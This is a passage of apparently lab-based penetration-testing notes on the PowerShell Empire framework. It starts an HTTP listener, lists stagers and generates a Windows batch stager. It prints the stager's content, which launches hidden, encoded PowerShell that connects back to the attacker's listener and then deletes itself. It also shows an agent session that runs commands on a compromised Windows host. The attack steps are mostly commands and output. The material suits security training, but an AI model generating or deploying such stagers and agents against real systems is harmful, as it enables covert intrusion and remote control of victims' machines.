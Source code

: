 ```bash
* Environment: production
WARNING: Do not use the development server in a production environment.
Use a production WSGI server instead.
* Debug mode: off
[+] Listener successfully started!
(Empire: listeners/http) > back
```

## Stagers

They are **small pieces of code** generated by Empire that are **executed on the victim and connect back to a listener**. They set up a connection between the victim and the attacker and perform additional tasks to facilitate the transfer of a staged payload.

```bash
(Empire: listeners) > usestager
multi/bash 			    osx/launcher 		    windows/launcher_bat
multi/launcher 		  osx/macho 			    windows/launcher_lnk
multi/macro 		    osx/macro 			    windows/launcher_sct
multi/pyinstaller 	osx/pkg 			      windows/launcher_vbs
multi/war 			    osx/safari_launcher windows/launcher_xml
osx/applescript 	  osx/teensy 			    windows/macro
osx/application 	  windows/bunny 		  windows/macroless_msword
osx/ducky 			    windows/dll 		    windows/teensy
osx/dylib 			    windows/ducky
osx/jar 			      windows/hta
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > info
...
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
[*] Stager output written out to: /tmp/launcher.bat
...
kali@kali:/opt/Empire$ cat /tmp/launcher.bat
@echo off
start /b powershell -noP -sta -w 1 -enc SQBGACgAJABQAFMAVgBlAHIAcwBp...
start /b "" cmd /c del "%~f0"&exit /b
```

## Agents

An agent is simply the **final payload** retrieved by the stager, and it **allows us to execute commands** and interact with the system.
After successful execution of the stager script, an initial agent call will appear in our Empire session:

```bash
(Empire: stager/windows/launcher_bat) > [+] Initial agent S2Y5XW1L from 10.11.0.22 now active (Slack)
...
(Empire: stager/windows/launcher_bat) > agents
[*] Active agents:
Name Lang Internal IP Machine Name Username Process Delay
--------- ---- ----------- ------------ --------- ------- -----
S2Y5XW1L ps 10.11.0.22 CLIENT251 corp\offsec powershell/2976 5/0.0

(Empire: agents) > interact S2Y5XW1L
(Empire: S2Y5XW1L) > sysinfo
(Empire: S2Y5XW1L) > sysinfo: 0|http://10.11.0.4:80|corp|offsec|CLIENT251|10.11.0.22|M
icrosoft Windows 10 Pro|False|powershell|2976|powershell|5
Listener: http://10.11.0.4:80
Internal IP: 10.11.0.22
Username: corp\offsec
Hostname: CLIENT251
```